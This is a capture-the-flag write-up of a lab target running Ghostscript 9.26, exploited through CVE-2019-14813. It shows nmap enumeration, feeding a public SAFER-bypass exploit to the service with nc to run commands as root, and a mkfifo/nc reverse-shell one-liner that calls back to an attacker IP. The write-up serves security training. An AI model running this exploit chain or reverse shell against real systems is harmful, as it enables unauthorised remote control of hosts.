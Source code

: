 ```yaml
---
layout: post
title: CVE-2019-14813 
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 18 May 2021
tags: [Lorem, Ipsum]
---
```





[CVE-2019-14813](https://echoctf.red/target/16)
![](/assets/images/CVE-2019-14813.png)

A flaw was found in ghostscript, versions 9.x before 9.28, in the setsystemparams procedure where it did not properly secure its privileged calls, enabling scripts to bypass -dSAFER restrictions. A specially crafted PostScript file could disable security protection and then have access to the file system, or execute arbitrary commands.


References:

[CVE-2019-14813](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14813)

[Ghostscript FIX Commit](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=885444fcbe10dc42787ecb76686c8ee4dd33bf3)

[Ghostscript Bugzilla - Bug 700317](https://bugs.ghostscript.com/show_bug.cgi?id=700317)

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
PORT      STATE    SERVICE VERSION
12345/tcp open     netbus?
| fingerprint-strings:
|   Help:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in HELP
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 5
|   NULL:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|   OfficeScan:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in GET
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 4
|_    GS>GS>
42132/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?


```

### vulnerability

CVE-2019-14813


### Exploit 

using refrences and google:

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

let connect via telnet:

telnet 10.0.40.0  12345

```
telnet 10.0.40.0  12345 
                                                                       1 ⨯ 2 ⚙
Trying 10.0.40.0...
Connected to 10.0.40.0.
Escape character is '^]'.
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>


```

we connected to Ghostscript. 

### Rce

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

pasting all file content to terminal.

```
cat ghostrule3.ps | nc 10.0.40.0 12345                                                             2 ⚙
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>=============================================================================
=     Safer Mode Bypass by `.forceput` Exposure from `setsystemparams`      =
=============================================================================
GS>GS>[*] Obtaining .forceput operator from setsystemparams operator...
GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>GS>[+] A candidate for .forceput operator found!
GS>GS>[*] Attempting sanity check with the candidate for .forceput operator...
GS>GS<1>GS>GS>GS>GS>GS>[+] Successfully got .forceput operator!
GS>GS>[*] Overwriting several flags to escape from Safer Mode...
GS>GS>GS>GS>GS>GS>GS>GS>GS>[+] Successfully escaped from Safer Mode!
GS>GS>[*] Executing a shell command...
GS>root
GS>
```
as we can see, we can execute commadns, and got bonus, i can do it as root. 

so let get shell + and root.

### Privilege escalation

let replace the id to rev_shell script. 

```

(Executing a shell command...) info
(whoami) osexec print
quit

```

to 

```

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f) osexec print
quit
```

[generate shells](https://www.revshells.com/)

![](/assets/images/p_sec_cve14813.png)

